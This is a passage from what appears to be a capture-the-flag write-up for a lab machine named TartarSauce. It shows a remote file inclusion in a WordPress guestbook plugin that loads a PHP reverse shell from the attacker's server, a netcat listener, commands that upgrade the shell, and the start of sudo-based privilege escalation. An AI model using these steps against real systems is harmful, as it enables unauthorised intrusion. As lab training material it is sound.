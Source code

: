 ## Initial Foothold <a id="94df"></a>

Get a PHP reverse shell from [pentestmonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) and rename it to _wp-load.php_. Start up a simple server where the shell is located.

```text
python -m SimpleHTTPServer 5555
```

Set up a netcat listener on the attack machine to receive the reverse shell.

```text
nc -nlvp 1234
```

Visit the following link with the correct URL to the simple server.

```text
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.12:5555/
```

We get a shell!

![](https://miro.medium.com/max/433/1*Buu5WITctkJPvTeE68ltsA.png)

Let’s upgrade it to a better shell.

```text
python -c 'import pty; pty.spawn("/bin/bash")'
```

This gives us a partially interactive bash shell. To get a fully interactive shell, background the session \(CTRL+ Z\) and run the following in your terminal which tells your terminal to pass keyboard shortcuts to the shell.

```text
stty raw -echo
```

Once that is done, run the command “fg” to bring netcat back to the foreground. Then use the following command to give the shell the ability to clear the screen.

```text
export TERM=xterm
```

Unfortunately, we’re running as the web daemon user _www-data_ and we don’t have privileges to view the _user.txt_ flag. Therefore, we need to escalate our privileges.

## Privilege Escalation <a id="455b"></a>

Run the following command to view the list of allowed commands the user can run using sudo without a password.

```text
www-data@TartarSauce:/$ sudo -l
Matching Defaults entries for www-data on TartarSauce:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/binUser www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

